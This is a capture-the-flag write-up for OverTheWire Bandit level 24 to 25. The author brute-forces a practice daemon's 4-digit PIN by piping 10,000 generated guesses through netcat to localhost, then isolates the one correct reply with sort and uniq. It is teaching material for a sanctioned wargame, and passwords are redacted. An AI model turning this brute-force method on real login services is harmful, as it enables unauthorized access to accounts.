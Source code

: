 # Bandit24 → 25: The Daemon's Lockbox

[Challenge](https://overthewire.org/wargames/bandit/bandit25.html)

---

## Level Description

In this level, you're told that the daemon is listening on port `30002`. It will give you the password for `bandit25` **only if** you send it:
1. The current password for `bandit24`, and
2. A secret 4-digit **PIN CODE**
3. Both should be sent on a single line, separated by a space.

The twist? 
You don't know the exact PIN-- and there's **no way to retrieve it** other than trying all possible combinations: **brute force** the pin (0000..9999).

The good news:
**You don't need create a new connection each time.**

---

## The Process

**Step 1: Logging into bandit24**

As usual, I connected to the Bandit server using SSH:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Once inside, there wasn't much to explore in home directory. 

**Step 2: Test the connection manually**

use `nc` netcat to talk to the daemon on port `30002`.

```bash
nc localhost 30002
```

You'll see this:

```bash
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

Try it with correct password and a random pincode to see how it responds:

```bash
[REDACTED] 8777
```

You'll get a response like:

```bash
Wrong! Please enter the correct current password and pincode. Try again.
```

Perfect--now let's automate it!

**Step 3: Make a temporary working directory**

```bash
mktemp -d 
```

it return:

```bash
/tmp/tmp.wuaaUvfCrE
```

move into that directory:

```bash
cd /tmp/tmp.wuaaUvfCrE
```

- You **don't have write access** to your home directory on bandit.
- `mktemp -d` creates a random-named directory inside `/tmp`, which is both **writable** and **isolated**.
- This prevents other users from guessing your file names or snooping. 

**Step 4: Generate all possible input combinations**

I'll generate 10,000 lines formatted like:

```bash
<password> 0000
<password> 0001
<password> 0002
...
<password> 9999
```

Use this command to generate and save them into a file:

```bash
printf "[REDACTED] %04d\n" {0..9999} >> all_payloads.txt
```

Explanation:

- `%04d/n` pads numbers with leading zeros: `0000`, `0001`, ..., `9999`
- `{0..9999}` loops through all 10,000 numbers
-  `>> all_payloads.txt` writes them all to file for later use.

File succesfully created:
```bash
less all_payloads.txt
```

You confirmed the file contents were as expected.

**Step 5: Send all payloads to the daemon using netcat**

```bash
cat all_payloads.txt | nc localhost 30002 >> results.txt
```

Explanation:

- `cat all_payloads.txt`: reads all the payload lines
- `nc localhost 30002`: pipes each line into the daemon
- `>> results.txt`: appends the daemon's response to a file

Results file created:

```bash
-rw-rw-r-- 1 bandit24 bandit24   678908 Apr  5 01:05 results.txt
```

**Step 6: Find the unique output (correct response)**

```bash
sort results.txt | uniq -u
```

Explanation:
- Most lines in `results.txt` will be the same:
`"Wrong! Please enter the correct current password and pincode. Try again."`
- `sort` puts identical lines next to each other.
- `uniq -u` filters and shows **only lines that appear once** -- that's the successful one!

Output:
```bash
Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is [REDACTED]
```

Voila! A golden ticket!

## Password for the Next Level

`[REDACTED]`

## What I Learned

- **Brute-Forcing with Scripting**: Created a wordlist with 4-digit pins and appended my password to each and automated brute-forcing using `printf` and bash expansion.
- **Comand Line Mastery**: Created and worked inside a secure temp directory using `mktemp -d`.
- **Command Line Mastery**: Used text processing tools to isolate the correct output using `sort results.txt | uniq -u`.

## Helpful Reading Material

- **The Linux Command Line** by William Shotts
- **Linux Basics For Hacker** by OccupyTheWeb
- [Brute Force with Bash Expansion](https://gist.github.com/vinzdef/7bdf4249e67a2ff7ed3f)
- [File Manipulation](https://www.futurelearn.com/info/courses/linux-for-bioinformatics/0/steps/201955)


